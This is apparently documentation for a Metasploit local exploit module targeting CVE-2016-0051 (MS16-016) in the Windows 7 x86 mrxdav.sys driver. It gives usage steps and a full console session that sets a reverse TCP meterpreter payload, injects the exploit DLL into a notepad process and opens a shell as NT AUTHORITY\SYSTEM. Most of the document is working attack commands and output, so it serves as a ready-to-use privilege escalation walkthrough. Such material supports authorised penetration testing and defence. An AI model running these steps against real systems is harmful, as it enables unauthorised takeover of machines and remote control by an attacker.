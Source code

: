 ## Introduction

This module exploits a null pointer dereference vulnerability present in the `mrxdav.sys` kernel driver on Windows 7 x86.  The vulnerability is described by MS16-016 and CVE-2016-0051.  The module allows the user to spawn a new payload, such as meterpreter, on the target system with elevated privileges (NT AUTHORITY\SYSTEM)

## Usage

You'll first need to obtain a session on the target system.  Next, once the module is loaded, one simply needs to set the `payload` and `session` options.  From here, running the module will result in the payload being executed with system level privileges.

An example session follows:


```
meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > use exploits/windows/local/ms16_016_webdav
msf exploit(ms16_016_webdav) > set session 5
session => 5
msf exploit(ms16_016_webdav) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms16_016_webdav) > set lport 4567
lport => 4567
msf exploit(ms16_016_webdav) > set lhost 192.168.1.203
lhost => 192.168.1.203
msf exploit(ms16_016_webdav) > run

[*] Started reverse TCP handler on 192.168.1.203:4567
[*] Launching notepad to host the exploit...
[+] Process 3204 launched.
[*] Reflectively injecting the exploit DLL into 3204...
[*] Exploit injected ... injecting payload into 3204...
[*] Sending stage (957999 bytes) to 192.168.1.221
[*] Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.
[*] Meterpreter session 12 opened (192.168.1.203:4567 -> 192.168.1.221:49266) at 2016-07-05 22:07:34 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

